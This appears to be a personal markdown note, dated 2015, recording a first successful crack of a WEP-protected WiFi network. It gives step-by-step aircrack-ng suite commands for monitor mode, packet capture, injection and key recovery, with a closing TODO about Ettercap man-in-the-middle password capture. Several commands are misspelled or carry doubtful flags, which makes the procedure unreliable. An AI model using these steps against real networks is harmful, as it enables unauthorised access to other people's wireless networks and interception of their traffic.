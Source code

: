 ##27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

wlan0 = own interface -> wlan1monmon

mon0 = find it by "airmon-ng"

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmon-ng start wlan0
* airodump-ng mon0
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###Wireless Equivalent Privacy(WEP):
**Window 1**
* airmon-ng
  * Find mon0
* airodump-ng mon0
* Find information in table
	
**New window 2**
* airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* airoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
* airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!

TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?) -> Man in the middle attack
